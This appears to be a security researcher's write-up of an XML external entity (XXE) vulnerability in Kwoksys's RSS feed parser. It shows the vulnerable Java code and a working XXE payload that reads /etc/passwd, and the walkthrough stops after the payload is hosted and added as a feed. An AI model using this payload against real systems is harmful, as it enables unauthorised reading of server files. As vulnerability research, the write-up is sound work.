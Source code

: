 Now that we know that the default implementation for new instances of XMLInputFactory has support for external entities enabled. Let's review the Kwoksys source once again.

```java
public void xmlToModel(String xmlString) throws Exception {
    this.xmlString = xmlString;
    this.rssModel = new RssModel();
    StringReader reader = new StringReader(xmlString);
    XMLStreamReader parser = XMLInputFactory.newInstance().createXMLStreamReader(reader);
    StAXOMBuilder stAXOMBuilder = OMXMLBuilderFactory.createStAXOMBuilder(OMAbstractFactory.getOMFactory(), parser);
    OMElement rss = stAXOMBuilder.getDocumentElement();
    OMElement channel = rss.getFirstElement();
    buildChannel(channel);
  }
```

After reviewing the code - there is no manual configuration of the **IS_SUPPORTING_EXTERNAL_ENTITIES** property. As such - the XMLInputFactory will use its default configuration which support external entities. This parser should be vulnerable to XXE.

<hr>

## **Exploitation**

The following XXE payload can be used to confirm our theory
```xml
<!DOCTYPE title [ <!ELEMENT title ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
        <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
        <channel>
            <title>Evil Blog</title>
            <link>http://example.com/</link>
            <description>A blog about things</description>
            <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
            <item>
                <title>&xxe;</title>
                <link>http://example.com</link>
                <description>a post</description>
                <author>author@example.com</author>
                <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
            </item>
        </channel>
        </rss>
```

If the parser is vulnerable, it will attempt to resolve the external entity "xxe" declared above. Since the external entity points to "file:///etc/passwd", the parser should include the content of the system's /etc/passwd file within the &xxe reference contained in the title tag.

First, we host our malicious xml file on another server:
![Image](/images/2022-11-12-kwoksys-xxe/Pasted-image-20221112135504.png)

From within Kwoksys, we add a new RSS feed pointing to our web server
![Image](/images/2022-11-12-kwoksys-xxe/Pasted-image-20221112135615.png)
